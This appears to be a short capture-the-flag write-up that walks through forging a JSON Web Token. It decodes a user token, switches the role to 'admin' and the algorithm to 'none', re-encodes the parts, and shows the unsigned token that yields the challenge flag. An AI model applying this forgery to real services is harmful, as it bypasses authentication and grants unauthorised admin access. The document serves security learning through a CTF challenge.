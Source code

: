 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjo2NDkwNywidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NjA4OTcyfQ.vWfLSgcFjGiHDq976O3UBDTVdzeafjn8YkAC429K0XA
  -> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjo2NDkwNywidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NjA4OTcyfQ
    -> base64 decode
      ->  {"typ":"JWT","alg":"HS256"}
          {"auth":64907,"text":"I do love a good puzzle.","role":"user","iat":1607608972}
            -> modify role -> "admin"
            -> modify alg  -> "none"

{"typ":"JWT","alg":"none"}
  -> base64 encode 
    -> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0
{"auth":64907,"text":"I do love a good puzzle.","role":"admin","iat":1607608972}
  -> base64 encode
    -> eyJhdXRoIjo2NDkwNywidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzYwODk3Mn0

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjo2NDkwNywidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzYwODk3Mn0.
Hey Santa, the flag is NOVI{Jw7_f@ilure_in_n0ne}.
